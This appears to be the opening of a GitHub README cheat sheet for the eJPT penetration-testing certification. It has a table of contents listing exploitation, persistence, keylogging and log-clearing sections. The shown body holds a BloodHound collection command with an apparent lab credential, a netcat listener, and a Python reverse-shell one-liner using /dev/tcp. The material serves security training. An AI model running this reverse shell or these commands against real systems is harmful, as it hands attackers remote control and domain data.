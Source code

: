 - [VSFTPD Exploitation](#VSFTPD-Exploitation)
- [SAMBA Exploitation](#SAMBA-Exploitation)
- [SSH Exploitation](#SSH-Exploitation)
- [SMTP Server Exploitation](#SMTP-Server-Exploitation)
- [Meterpreter Commands](#Meterpreter-Commands)
- [Windows Post Exploitation Module](#Windows-Post-Exploitation-Module)
- [Bypassing UAC Through Memory Injection](#Bypassing-UAC-Through-Memory-Injection)
- [Establishing Persistence on Windows](#Establishing-Persistence-on-Windows)
- [Enabling RDP](#Enabling-RDP)
- [Windows Keylogging](#Windows-Keylogging)
- [Clearing Windows Logs](#Clearing-Windows-Logs)
- [Pivoting](#Pivoting)
- [Linux Post Exploitation Modules](#Linux-Post-Exploitation-Modules)
- [FUN STUFF](#FUN-STUFF)
- [Linux Privilege Escalation: Exploiting a vulnerable program (chkrootkkit)](#Linux-Privilege-Escalation-Exploiting-a-vulnerable-program-chkrootkkit)
- [Linux Password Hash (exploit-ProFTPD)](#Linux-Password-Hash-exploit-ProFTPD)
- [*Linux Privilege Escalation](#Linux-Privilege-Escalation)
- [Establishing Persistence On Linux](#Establishing-Persistence-On-Linux)
- [Exploiting Misconfigured Cron Jobs & exploit copy.sh](#Exploiting-Misconfigured-Cron-Jobs--exploit-copysh)
- [Exploiting SUID Binaries](#Exploiting-SUID-Binaries)
- [Exploit HTPP file server rejetto](#Exploit-HTPP-file-server-rejetto)
- [GUI metasploit](#GUI-metasploit)
- [Netcat & blind shell](#Netcat--blind-shell)
- [Exploit PHP](#Exploit-PHP)

# eJPT Cheat Sheet

bloodhound
```shell
bloodhound-python -dc-ip 10.10.11.174 -d support.htb -u 'support' -p 'Ironside47pleasure40Watchful' -c all
```

 nc
```shell
nc -lvnp 9001
import os; os.system("bash -c 'bash -i >& /dev/tcp/<my-ip>/9001 0>&1'")
```
 
crackstation
```url
https://crackstation.net/
```


```url
https://www.exploit-db.com/
https://www.rapid7.com/db/
```
> This URL is use to search exploit publicly

- Also use `searchsploit` for offline search of exploit
